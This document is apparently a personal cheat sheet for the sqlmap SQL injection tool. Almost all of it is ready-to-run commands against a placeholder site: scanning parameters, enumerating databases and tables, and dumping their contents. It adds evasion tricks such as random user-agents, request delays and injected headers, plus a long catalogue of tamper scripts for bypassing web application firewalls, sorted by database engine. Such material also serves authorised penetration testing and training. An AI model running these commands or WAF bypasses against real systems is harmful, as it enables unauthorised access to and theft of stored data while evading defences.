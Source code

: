 SQLMAP

Methodology:

*command to scan for vulnerabilities and very versbose option

    $sqlmap -u <target URL> -v 4

**scan with parameter id

    $sqlmap -u http://target.tld/product.php?id=12 -p id -v 4


***scan and enumerate database

    $sqlmap -u http://target.tld/product.php?id=12 -p id --dbs -v 4


****enumerate the list of tables in a database: 

    $sqlmap -u http://target.tld/product.php?id=12 -p id -D <database name> --tables -v 4

*****dump data from a table:

    $sqlmap -u http://target.tld/product.php?id=12 -p id -D <database name> -T <table name>  --dump -v 4

------------------------------------------------------------------------------------------------------------------------------------------

Tricks:

-Use Random User-Agent:

    $sqlmap -u http://target.tld/product.php?id=12 -p id -D <database name> -T <table name>  --dump --random-agent -v 4 


-Using the most dangerous queries (when the web application is in demo mode)

    --risk : 1-3 => 3
    --level: 1-5 => 5
    $sqlmap -u http://target.tld/product.php?id=12 -p id --risk 3 --level 5



-send data with sqlmap request and change HTTP method:

    $sqlmap -u http://target.tld/product.php?id=12 -p id --data="username:admin&password="admin" --method="POST"

-delay trick:
time delay => --delay=<TIME>

    $sqlmap -u http://target.tld/product.php?id=12 -p id --level 5 --delay=10

-add HTTP header manually :
--headers=""

    $sqlmap -u http://target.tld/product.php?id=12 -p id --headers="HOST:target.tld  \nauthorization:bearer ...\nuser-agent:aaaaa\n ...." --cookie="PHPSESSIONID=...;"


-add a intercepted HTTP file : 

    intercept a HTTP request and save it in a file(data.txt) and use sqlmap
    data.txt:
    POST /target.tld/login.php?id=2 HTTP/1.1
    Host: target.tld
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
    Accept: text/html
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Content-Type: multipart/form-data; 
    Origin: http://target.tld
    Connection: keep-alive
    Referer: http://target.tld
    Upgrade-Insecure-Requests: 1
    Priority: u=0, i
    
    
    
    username=admin&password=admin
    use sqlmap:
    $sqlmap -r data.req -p username --batch




-login MySQL server with sqlmap:

    sqlmap -d "mysql://username:password@TARGET:3306/testDB"




-bypass WAF:

--tamper 

    sqlmap --list-tamper
 
    $sqlmap -u http://target.tld/product.php?id=12 -p id --tamper=<SCRIPT>

        # All scripts
    --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
    
    # General scripts
    --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
    
    # Microsoft access
    --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
    
    # Microsoft SQL Server
    --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
    
    # MySQL
    --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
    
    # Oracle
    --tamper=between,charencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes,xforwardedfor
    
    # PostgreSQL
    --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,xforwardedfor
    
    # SAP MaxDB
    --tamper=ifnull2ifisnull,nonrecursivereplacement,randomcase,securesphere,space2comment,space2plus,unionalltounion,unmagicquotes,xforwardedfor
    
    # SQLite
    --tamper=ifnull2ifisnull,multiplespaces,nonrecursivereplacement,randomcase,securesphere,space2comment,space2dash,space2plus,unionalltounion,unmagicquotes,xforwardedfor




    General tamper option and tamper's list

    tamper=name_of_the_tamper
    
    Tamper 	                            Description
    apostrophemask.py 	            Replaces apostrophe character with its UTF-8 full width counterpart
    apostrophenullencode.py 	    Replaces apostrophe character with its illegal double unicode counterpart
    appendnullbyte.py 	            Appends encoded NULL byte character at the end of payload
    base64encode.py 	            Base64 all characters in a given payload
    between.py 	                    Replaces greater than operator ('>') with 'NOT BETWEEN 0 AND #'
    bluecoat.py 	                Replaces space character after SQL statement with a valid random blank character.Afterwards replace character = with LIKE operator
    chardoubleencode.py 	        Double url-encodes all characters in a given payload (not processing already encoded)
    commalesslimit.py 	            Replaces instances like 'LIMIT M, N' with 'LIMIT N OFFSET M'
    commalessmid.py 	            Replaces instances like 'MID(A, B, C)' with 'MID(A FROM B FOR C)'
    concat2concatws.py 	            Replaces instances like 'CONCAT(A, B)' with 'CONCAT_WS(MID(CHAR(0), 0, 0), A, B)'
    charencode.py 	                Url-encodes all characters in a given payload (not processing already encoded)
    charunicodeencode.py 	        Unicode-url-encodes non-encoded characters in a given payload (not processing already encoded)
    equaltolike.py 	                Replaces all occurances of operator equal ('=') with operator 'LIKE'
    escapequotes.py 	            Slash escape quotes (' and ")
    greatest.py 	                Replaces greater than operator ('>') with 'GREATEST' counterpart
    halfversionedmorekeywords.py 	Adds versioned MySQL comment before each keyword
    ifnull2ifisnull.py 	            Replaces instances like 'IFNULL(A, B)' with 'IF(ISNULL(A), B, A)'
    modsecurityversioned.py 	    Embraces complete query with versioned comment
    modsecurityzeroversioned.py 	Embraces complete query with zero-versioned comment
    multiplespaces.py 	            Adds multiple spaces around SQL keywords
    nonrecursivereplacement.py 	    Replaces predefined SQL keywords with representations suitable for replacement (e.g. .replace("SELECT", "")) filters
    percentage.py 	                Adds a percentage sign ('%') infront of each character
    overlongutf8.py 	            Converts all characters in a given payload (not processing already encoded)
    randomcase.py 	                Replaces each keyword character with random case value
    randomcomments.py 	            Add random comments to SQL keywords
    securesphere.py 	            Appends special crafted string
    sp_password.py 	                Appends 'sp_password' to the end of the payload for automatic obfuscation from DBMS logs
    space2comment.py 	            Replaces space character (' ') with comments
    space2dash.py 	                Replaces space character (' ') with a dash comment ('--') followed by a random string and a new line ('\n')
    space2hash.py 	                Replaces space character (' ') with a pound character ('#') followed by a random string and a new line ('\n')
    space2morehash.py 	            Replaces space character (' ') with a pound character ('#') followed by a random string and a new line ('\n')
    space2mssqlblank.py         	Replaces space character (' ') with a random blank character from a valid set of alternate characters
    space2mssqlhash.py 	            Replaces space character (' ') with a pound character ('#') followed by a new line ('\n')
    space2mysqlblank.py 	        Replaces space character (' ') with a random blank character from a valid set of alternate characters
    space2mysqldash.py             	Replaces space character (' ') with a dash comment ('--') followed by a new line ('\n')
    space2plus.py 	                Replaces space character (' ') with plus ('+')
    space2randomblank.py         	Replaces space character (' ') with a random blank character from a valid set of alternate characters
    symboliclogical.py             	Replaces AND and OR logical operators with their symbolic counterparts (&& and
    unionalltounion.py             	Replaces UNION ALL SELECT with UNION SELECT
    unmagicquotes.py 	            Replaces quote character (') with a multi-byte combo %bf%27 together with generic comment at the end (to make it work)
    uppercase.py 	                Replaces each keyword character with upper case value 'INSERT'
    varnish.py 	                    Append a HTTP header 'X-originating-IP'
    versionedkeywords.py 	        Encloses each non-function keyword with versioned MySQL comment
    versionedmorekeywords.py     	Encloses each keyword with versioned MySQL comment
    xforwardedfor.py 	            Append a fake HTTP header 'X-Forwarded-For'
    
